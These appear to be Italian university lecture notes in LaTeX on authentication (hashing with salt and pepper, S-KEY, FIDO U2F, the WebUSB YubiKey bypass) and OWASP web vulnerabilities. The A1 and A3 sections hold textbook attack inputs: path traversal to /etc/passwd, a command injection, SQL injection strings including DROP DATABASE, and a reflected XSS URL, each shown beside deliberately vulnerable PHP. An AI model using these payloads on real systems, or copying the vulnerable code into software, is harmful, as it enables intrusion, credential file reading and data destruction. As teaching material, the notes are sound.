\section{Autenticazione passiva}

Nell'autenticazione passiva il Prover (P) e il Verifier (V) concordano un segreto e lo memorizzano entrambi. Per autenticarsi, P invia il segreto a V, che lo confronta con la propria copia.

Questo approccio ha due categorie di problemi. Sul canale di comunicazione: se il segreto viaggia in chiaro è intercettabile da un attaccante passivo; se viene offuscato ma rimane sempre lo stesso è vulnerabile a un \textbf{replay attack}, in cui l'attaccante registra il dato e lo ritrasmette in seguito. La soluzione è usare un canale cifrato oppure protocolli più sofisticati. Sul lato memorizzazione: se il database di V viene compromesso, tutti i segreti sono esposti.

\subsection{Memorizzazione delle password}

Per limitare i danni in caso di furto del database, V non deve mai conservare le password in chiaro. Il requisito è che V possa verificare se una password è corretta senza conoscerla direttamente. La soluzione è memorizzare non la password ma la sua \textbf{impronta} (\textit{fingerprint}), calcolata tramite una funzione hash.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 21.png}
\end{figure}

Il problema residuo è l'\textbf{attacco con dizionario}: un attaccante che ottiene il database può pre-calcolare gli hash di milioni di password comuni e confrontarli con quelli memorizzati (si vedano le \textit{Rainbow Tables}). Un ulteriore problema è che utenti con la stessa password su sistemi diversi producono fingerprint identiche, facilitando attacchi incrociati.

La mitigazione standard è il \textbf{salt}: un valore casuale generato al momento della scelta della password e concatenato ad essa prima dell'hashing. Il salt viene conservato in chiaro nel database insieme alla fingerprint. A ogni cambio di password viene generato un nuovo salt, rendendo impossibile il pre-calcolo delle fingerprint da un dizionario.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 22.png}
\end{figure}

Un ulteriore rafforzamento è il \textbf{pepper}: un segreto aggiuntivo non conservato nel database ma gestito all'interno di un \textbf{HSM} (Hardware Security Module). A differenza del salt, il pepper non è mai accessibile dal database e rende inutile il furto del file delle password da solo.

Un esempio concreto è il formato usato in \texttt{/etc/shadow} su sistemi Linux:

\begin{lstlisting}
	$6$VjDM2ltuaSNPBxfO$Ip40UoguO.OjFafglVeMgzZplisBV.CC76
	jRyead9rvidbyWcAr200dH.7N8budnpS3FzJJdDxrKGQjekwTFU0
\end{lstlisting}

I tre campi separati da \texttt{\$} indicano rispettivamente: l'identificatore dell'algoritmo hash (\texttt{6} = SHA-512), il salt, e la fingerprint calcolata sulla concatenazione \texttt{password || salt}. Poiché il salt cambia a ogni rinnovo, la stessa password produce fingerprint diverse su sistemi diversi, rendendo inutile il pre-calcolo.

È importante notare che il salt non protegge da attacchi offline avviati dopo aver sottratto il file: in quel caso la contromisura essenziale è che la password sia intrinsecamente difficile da indovinare.

\subsection{Scelta delle password}

Una password complessa all'apparenza (maiuscole, numeri, simboli) può avere un'entropia inferiore a una frase composta da quattro parole comuni casuali, perché i pattern di sostituzione (es. a$\to$@, o$\to$0) sono ampiamente noti agli attaccanti. Una sequenza di parole comuni è invece più facile da ricordare e statisticamente più difficile da indovinare.

Poiché una password crackata tramite un leak sarà riutilizzabile su qualunque altro servizio, è indispensabile usare password diverse per ogni account. Con decine o centinaia di account, l'unica soluzione praticabile è un \textbf{password manager}: un database cifrato con una singola passphrase robusta, che vale la pena scegliere con cura.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 23.png}
\end{figure}

\subsection{Cattive pratiche}

Molti sistemi reali presentano vincoli contraddittori o dannosi per la sicurezza: richiedere caratteri numerici ma imporre una lunghezza massima molto bassa, limitare l'insieme di caratteri speciali accettati, disabilitare il campo di conferma della password. Questi vincoli riducono lo spazio delle password accettabili e ostacolano l'uso di password manager e generatori automatici.

Un problema collaterale è la gestione non attenta degli username: un sistema che risponde con ``nome utente già esistente'' durante la registrazione rivela implicitamente quali account sono presenti, facilitando attacchi mirati.

\noindent\rule{\textwidth}{0.4pt}

\section{Autenticazione attiva}

Nell'\textbf{autenticazione attiva} P dimostra di conoscere il segreto senza mai trasmetterlo, inviando ogni volta un dato diverso. Questo rende inutile sia il furto del dato di confronto da V, sia l'intercettazione del canale per autenticazioni future. Rimane però la vulnerabilità all'attacco \textbf{man-in-the-middle}.

\subsection{S-KEY: One-Time Password basata su catena hash}

Il sistema S-KEY sfrutta la proprietà delle funzioni hash di essere facili da calcolare ma difficili da invertire. V viene inizializzato con il valore $h^k(N)$, dove $N$ è il segreto di P e $h^k$ indica l'applicazione della funzione hash $k$ volte in sequenza. Alla prima autenticazione P invia $h^{k-1}(N)$: V verifica che applicando un ulteriore hash si ottenga $h^k(N)$, poi scarta $h^k(N)$ e memorizza $h^{k-1}(N)$ come nuovo riferimento. A ogni autenticazione successiva P invia il valore precedente nella catena. Dopo $k$ autenticazioni il sistema va reinizializzato.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 24.png}
\end{figure}

\subsection{Challenge-response con crittografia asimmetrica}

I sistemi a \textbf{sfida e risposta} sono tipicamente implementati con crittografia asimmetrica. V conosce la chiave pubblica di P; per autenticarsi, P deve dimostrare di possedere la corrispondente chiave privata senza rivelarla. V genera un valore casuale (\textbf{nonce}), lo cifra con la chiave pubblica di P e lo invia come sfida. P decifra il nonce con la propria chiave privata e lo restituisce come risposta; V verifica che la risposta coincida con il nonce originale.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 25.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Autenticazione a più fattori}

Le credenziali vengono comunemente rubate tramite phishing, leak di siti terzi con credenziali riutilizzate, o attacchi mirati. L'\textbf{autenticazione a due fattori (2FA)} consiste nell'utilizzo di almeno due dei fattori distinti elencati in precedenza. Anche se un attaccante ottiene le credenziali, non può accedere all'account senza il secondo fattore.

\subsection{2FA vs 2SA}

Una distinzione importante e spesso trascurata è quella tra \textbf{2FA} (Two-Factor Authentication) e \textbf{2SA} (Two-Step Authentication). Per fare vera 2FA i fattori devono essere categorialmente distinti. Un codice di verifica inviato via SMS o email in aggiunta a una password non costituisce un secondo \textit{fattore} di tipo ``possesso'', perché SMS e email sono vulnerabili ad attacchi MITM: in sostanza, chi controlla il canale di comunicazione può intercettare entrambi. Analogamente, sbloccare un'app con un PIN per ottenere un token è ``conoscenza aggiuntiva'', non un fattore indipendente; e un telefono, potendo essere violato da remoto, non garantisce il possesso esclusivo nel senso richiesto dalla 2FA.

Implementare la 2SA è comunque meglio di non farlo, ma è importante essere consapevoli della differenza.

Quando più di due fattori distinti vengono combinati si parla di \textbf{MFA} (Multi-Factor Authentication).

\subsection{Esempi: OTP e TOTP}

Una \textbf{OTP} (One-Time Password) è un token valido per un singolo utilizzo. Una \textbf{TOTP} (Time-based OTP) aggiunge un vincolo temporale: il token è valido solo per un intervallo di tempo molto breve (da pochi secondi a qualche minuto), il che riduce ulteriormente la finestra di utilizzo in caso di intercettazione.

\noindent\rule{\textwidth}{0.4pt}

\section{Standard FIDO}

La \textbf{FIDO Alliance} (Fast Identity Online) è un consorzio di aziende — tra cui Google e Microsoft — che sviluppa standard aperti per un'autenticazione più semplice e sicura. I due standard principali sono \textbf{UAF} e \textbf{U2F}.

\subsection{FIDO UAF (Universal Authentication Framework)}

UAF è progettato come sostituto dell'autenticazione tradizionale basata su password, con l'obiettivo di eliminare la password del tutto. In questo schema, l'utente si autentica con uno o più fattori locali sul proprio dispositivo (biometria, PIN, token fisico) per sbloccare una chiave privata, che viene poi usata per firmare una sfida emessa dal server. Le informazioni di sicurezza non lasciano mai il dispositivo.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 26.png}
\end{figure}

\subsection{FIDO U2F (Universal Second Factor)}

U2F è uno standard per il secondo fattore, progettato per rafforzare l'autenticazione basata su password senza sostituirla. Permette a un utente di usare una singola chiave di sicurezza fisica per accedere a qualunque servizio compatibile, senza driver o software client aggiuntivi. Il flusso è: il browser invia username e password al server; il server verifica la password, genera una sfida e la invia al browser; il browser la passa al dispositivo U2F (es. YubiKey); l'utente interagisce fisicamente con il dispositivo (tocca un pulsante); il dispositivo firma la sfida e restituisce la risposta al server per la verifica finale.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 27.png}
\end{figure}

U2F offre protezione nativa contro phishing, dirottamento di sessione, MITM e malware, ed è adottato da servizi come Gmail, Facebook, GitHub e Dropbox. Un dispositivo hardware comune per U2F è la \textbf{YubiKey}, che supporta più protocolli (FIDO2/WebAuthn, U2F, Smart card, OpenPGP, OTP) tramite USB-A, USB-C e NFC.

\noindent\rule{\textwidth}{0.4pt}

\section{Limiti e vulnerabilità: il caso WebUSB}

Nessun sistema è completamente al sicuro. Un esempio significativo riguarda proprio la YubiKey. A partire da Chrome 61, Google ha introdotto \textbf{WebUSB}, un'API JavaScript che consente a una pagina web di comunicare direttamente con dispositivi USB collegati al sistema. La YubiKey include una funzionalità di \textbf{origin-check} per verificare che il dominio del sito richiedente sia legittimo, prevenendo attacchi di phishing.

Nel febbraio 2018, i ricercatori Markus Vervier e Michele Orrù hanno dimostrato che era possibile usare WebUSB per instradare richieste U2F direttamente all'interfaccia CCID della YubiKey NEO, aggirando così il controllo sull'origine. In pratica, una pagina malevola poteva interagire con la YubiKey come se fosse un sito legittimo, annullando la protezione anti-phishing del dispositivo.

\chapter{Web Security}

\section{Scenario architetturale}

Un'applicazione web moderna è tipicamente strutturata su quattro livelli: il \textbf{browser} gestisce la presentazione e l'interfaccia HTTP verso l'esterno; il \textbf{web server} espone anch'esso un'interfaccia HTTP e fa da intermediario verso il livello applicativo; l'\textbf{application server} contiene la business logic ed è realizzato con tecnologie come Java, PHP, Node.js, Python o Ruby on Rails; infine lo \textbf{storage} (MySQL, PostgreSQL, MongoDB, ecc.) è accessibile tramite un data access layer.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 28.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{Classificazione sommaria delle vulnerabilità}

Le vulnerabilità delle applicazioni web si distribuiscono su tre piani. Sul \textbf{lato client} troviamo errori nella definizione del perimetro di interazione con i server, esecuzione di codice non autorizzata nel browser e manipolazioni del DOM per ingannare l'utente. A livello di \textbf{protocollo}, HTTP in sé non ha vulnerabilità intrinseche: i problemi derivano dalla gestione scorretta di cookie e serializzazione degli endpoint. Sul \textbf{lato server} si trovano errori di gestione delle richieste HTTP (HTTP smuggling), errori di controllo degli accessi (IDOR, File Disclosure, CSRF) ed errori di interpretazione dei dati (XSS, SSRF, XXE, injection, deserializzazione insicura), oltre a carenze di aggiornamento e configurazione errata del software.

\noindent\rule{\textwidth}{0.4pt}

\section{OWASP Top Ten}

L'\textbf{OWASP} (Open Web Application Security Project) è una fondazione no-profit che pubblica la Top Ten, un documento di riferimento sulle dieci vulnerabilità più critiche per le applicazioni web. L'ultima versione ufficiale è del 2021 e riflette cambiamenti significativi rispetto all'edizione 2017, con tre categorie nuove e diversi riposizionamenti.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 29.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{A1 – Broken Access Control}

Questa categoria raggruppa vari casi di accesso non correttamente mediato alle risorse. La vulnerabilità è fondamentalmente un'applicazione della \textit{security through obscurity}: si assume che una risorsa sia protetta semplicemente perché il suo indirizzo non è noto, senza applicare controlli espliciti.

\subsection{IDOR – Insecure Direct Object Reference}
Un oggetto (documento, file, funzione) viene erogato semplicemente perché si conosce il suo identificativo, senza verificare se l'utente richiedente ha effettivamente il diritto di accedervi. Un esempio classico: dopo il login, il browser viene reindirizzato a \texttt{userapp.php}; riscrivendo manualmente l'URL in \texttt{adminapp.php} si ottiene accesso alle funzionalità di amministrazione. Analogamente, modificando il parametro \texttt{action} in una URL da \texttt{backup} a \texttt{delete} si può eseguire un'operazione privilegiata.

Le mitigazioni sono: non esporre mai dati direttamente dal server web; creare mappature effimere con identificativi non prevedibili (es. hash); verificare i permessi AAA a ogni singola richiesta.

\subsection{File Disclosure (FD) e Path Traversal}
È un caso particolare di IDOR in cui l'oggetto esposto è un elemento del filesystem. Se il server sanifica l'input bloccando i caratteri di combinazione di comandi shell (\texttt{;}, \texttt{\&}, \texttt{||}, ecc.) ma lascia liberi i caratteri validi per i path, un attaccante può navigare l'albero delle directory con sequenze \texttt{../}:

\begin{lstlisting}[language=bash]
	doc = ../../../../etc/passwd
	-> cat /home/maybe/deep/username/../../../../etc/passwd
\end{lstlisting}

\noindent\rule{\textwidth}{0.4pt}

\section{A2 – Cryptographic Failures}

Le applicazioni web trattano grandi quantità di dati sensibili: informazioni identificative personali (PII), dati sanitari, dati finanziari, credenziali. Questi dati devono essere protetti sia \textit{at rest} (a riposo) sia \textit{in transit} (in transito). I problemi sorgono quando un dato non viene riconosciuto come sensibile, quando non si individuano tutte le sue copie, quando non si proteggono tutte le fasi del suo ciclo di vita, o quando i metodi di protezione usati non sono adeguatamente robusti.

Un esempio tipico: il canale è correttamente cifrato e il database è protetto, ma un gestore di errori copia incidentalmente dati sensibili (come numeri di carta di credito) nei log, che sono accessibili a tutti i membri dello staff IT per scopi di debugging. Un insider malevolo può così sottrarre milioni di record senza violare le protezioni principali.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 30.png}
\end{figure}

\noindent\rule{\textwidth}{0.4pt}

\section{A3 – Injection}

\subsection{Command Injection}
Il problema generale è l'invio di input non fidato a un interprete esterno, in cui i dati vengono interpretati come comandi. Uno scenario tipico: il server compone dinamicamente un comando da eseguire concatenando parti statiche con parametri ricevuti via HTTP dall'utente, senza sanificarli adeguatamente.

\begin{lstlisting}[language=php]
	<?php shell_exec("ls -l /home/" . $_GET["user"]) ?>
\end{lstlisting}

Se l'utente inserisce \texttt{; cat /etc/passwd}, il comando eseguito diventa:

\begin{lstlisting}[language=bash]
	ls -l /home/; cat /etc/passwd
\end{lstlisting}

\subsection{SQL Injection}
Quando i parametri non sanificati finiscono in una query SQL, l'attaccante può alterarne la logica o aggiungere comandi arbitrari. Partendo da una query di autenticazione come:

\begin{lstlisting}[language=sql]
	SELECT * FROM Users WHERE uid='$username' AND pwd='$password';
\end{lstlisting}

inserendo come password \texttt{' OR 'a'='a} si ottiene una condizione sempre vera; inserendo \texttt{'; DROP DATABASE WebApp; --} si aggiunge un secondo statement che cancella l'intero database.

\subsection{XSS – Cross-Site Scripting}
XSS è una tipologia di injection che colpisce il lato browser. L'obiettivo è far eseguire codice JavaScript arbitrario nel browser della vittima, sfruttando l'attendibilità che questa ripone nel sito. Le conseguenze possono includere: dirottamento della sessione autenticata, presentazione di form fasulli per sottrarre credenziali o token MFA, scaricamento di malware, key logging.

Esistono tre modalità principali.

Nel \textbf{Reflected XSS} l'attaccante individua una vulnerabilità in un'applicazione web (tipicamente un parametro che viene restituito senza sanificazione nella risposta), costruisce una URL malevola contenente codice JavaScript e la invia alla vittima tramite phishing o social engineering. Quando la vittima clicca il link ed è già autenticata sull'applicazione, lo script viene eseguito nel suo browser.

\begin{lstlisting}
	http://www.yourdomain.com/welcomepage.php?name=<script>alert('Hijacked!');</script>
\end{lstlisting}

Il codice lato server vulnerabile:

\begin{lstlisting}[language=php]
	<?php echo 'Welcome ' . stripslashes($_GET['name']); ?>
\end{lstlisting}

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 31.png}
\end{figure}

Nello \textbf{Stored XSS} il codice malevolo non rimane nella URL ma viene salvato persistentemente nel database del sito vulnerabile (es. in un commento o in un campo di testo). Ogni utente che carica la pagina contenente quel dato riceve ed esegue lo script nel proprio browser, senza bisogno di interagire con link sospetti.

\begin{figure}[H]
	\centering
	
\includegraphics[width=0.7\textwidth]{image 32.png}
